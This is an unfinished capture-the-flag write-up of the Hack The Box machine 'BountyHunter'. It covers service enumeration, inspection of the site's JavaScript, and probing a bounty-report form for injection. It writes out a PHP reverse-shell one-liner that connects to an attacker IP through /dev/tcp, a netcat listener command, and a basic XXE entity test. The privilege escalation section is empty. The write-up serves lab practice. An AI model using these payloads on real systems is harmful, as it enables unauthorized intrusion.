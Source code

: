 ```yaml
---
title: "BountyHunter"
author: "Me"
date: "October 20, 2021"
output: html_document
---
```


# BountyHunter

 <div id="boxinfo">
 <div id="textbox">
 <p class="alignleft">**Difficulty**: easy (?/10)</p>
 <p class="aligncenter">**Type**: CTF</p>
 <p class="alignright">**OS**: Linux</p>
 </div>
 <div style="clear: both;"></div>
 </div> 

<div class="img_container">
![desc]({{https://jsom1.github.io/}}/_images/htb_bounty_desc.png){: height="415px" width = 625px"}
</div>

**Ports/services exploited:** ?\\
**Tools:** ?\\
**Techniques:** ?\\
**Keywords:** ? 


## 1. Services enumeration
{:style="color:DarkRed; font-size: 170%;"}

Let's enumerate the running services with *nmap*. We'll use the flags *-sV* to have a verbose output, *-O* to enable OS detection, and *-sC* to enable the most common scripts scan:

<div class="img_container">
![nmap]({{https://jsom1.github.io/}}/_images/htb_bounty_nmap.png)
</div>

Very straightforward start, only an http server running on port 80 and ssh on port 22. This latter appears to be OpenSSH 8.2p1, and I know from experience that it is not vulnerable. Let's focus on the web server.

## 2. Gaining a foothold
{:style="color:DarkRed; font-size: 170%;"}

As usual, the first thing to do is browse to the target's IP and look at the content:

<div class="img_container">
![web server]({{https://jsom1.github.io/}}/_images/htb_bounty_site.png)
</div>

We land on a cool looking site where we see a few potential useful information. For example, we see "can use burp": since this is a CTF, it might be a hint to use Burp to intercept traffic between our machine and the server.\\
There are also 3 tabs: *about* is just an anchor, but *Contact us* and *Portal* bring us to pages with forms where we can submit data. For example, this is the *Portal* page:

<div class="img_container">
![Portal]({{https://jsom1.github.io/}}/_images/htb_bounty_portal.png)
</div>

While looking around the website, we can lanch *dirb* to look for interesting directories. The result is the following:

<div class="img_container">
![dirb]({{https://jsom1.github.io/}}/_images/htb_bounty_dirb.png)
</div>

There are two accessible directories, *asseets* and *resources*. By looking at their content (by simply browsing to *10.10.11.100/resources*), we see a promising *README* file:

<div class="img_container">
![readme]({{https://jsom1.github.io/}}/_images/htb_bounty_readme.png)
</div>

What immediately stands out here is of course the fact that there is a *test* account on the portal that hasn't been disabled. Moreover, it seems we can connect without providing a password.\\
We also learn the existence of a *tracker submit* script and that this latter isn't connected to the database. Finally, developer group permissions have been fixed: that probably means we'll have to escalate our privileges once we have a foothold, but that's why we're here :).

Let's just try to interact with the portal. We cannot submit credentials (*test* with no password), but we can see what it does:

<div class="img_container">
![test portal]({{https://jsom1.github.io/}}/_images/htb_bounty_test.png)
</div>

We see the database isn't ready (probably because the input here is handled by the *tracket submit* script, which isn't connected to the database yet), but we also understand what it does: it simply adds bounty information in an underlying database.\\
Since there are no direct interactions with the DB, we can exclude the possibility of SQL injections for now and will have to find something else.

Still in */ressources*, there's a JavaScript script called *bountylog.js*:

<div class="img_container">
![url]({{https://jsom1.github.io/}}/_images/htb_bounty_url.png)
</div>

We first see a function called *returnSecret()* which takes data as an argument and then does a POST request to *10.10.11.100/tracker_diRbPr00f314.php*. Below this function, there is another one that crafts an xml message from the fields we can fill on *10.10.11.100/log_submit.php*, and uses the *returnSecret()* function (*btoa* converts from binary to ASCII*). This gives us a good understandding of the application. However, we would need to see the content of the *tracker_diRbPr00f314.php* script to get the full picture...

After playing a while with the reporting system (*/log_submit.php*), I saw that there is nothing displayed when we input "<" in any field... Every other input seems to work:

<div class="img_container">
![no output]({{https://jsom1.github.io/}}/_images/htb_bounty_nop.png)
</div>

However, a simple "<" returns no output. It looks like it's not properly sanitized... I thought about trying a simple one-liner PHP reverse shell as follows, but it didn't work:

<div class="img_container">
![php]({{https://jsom1.github.io/}}/_images/htb_bounty_php.png)
</div>

The complete command is the following:

````
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.21/4444 0>&1'");
`````

And in the case that would work, we set up a netcat listener on port 4444 as follows: *sudo nc -nlvp 4444*.
After submitting this, we can inspect the network tab and we see it was Base64 encoded. We can check on any decoding tool:

<div class="img_container">
![decode]({{https://jsom1.github.io/}}/_images/htb_bounty_decode.png)
</div>

However, we receive nothing on our listener. At this point, I had to ask for help... It turns out we should have known, based on the XML output wee see on the previous image, that it might be vulnerable to **XXE injection**. I don't know about that, so let's have a look on the internet (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md):\\
"*An XML External Entity attack is a type of attack against an application that parses XML input and allows XML entities. XML entities can be used to tell the XML parser to fetch specific content on the server.*"\\
Well, that sounds promising. There are 2 types of XML Entity:

- XML Internal Entity: If an entity is declared within a DTD it is called as internal entity. Syntax: <!ENTITY entity_name "entity_value">
- XML External Entity: If an entity is declared outside a DTD it is called as external entity. Identified by SYSTEM.Syntax: <!ENTITY entity_name SYSTEM "entity_value">

The webpage also shows how to detect the vulnerability. Here's the PoC:

````
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
`````

This is a basic entity test: when the XML parser parses the external entities the result should contain "John" in firstName and "Doe" in lastName. Entities are defined inside the DOCTYPE element. It might help to set the Content-Type: application/xml in the request when sending XML payload to the server.

Let's try this. We'll use Burp to intercept a request, send it to the repeater and modify it to match the PoC:






## 3. Privilege escalation
{:style="color:DarkRed; font-size: 170%;"}


<ins>**My thoughts**</ins>


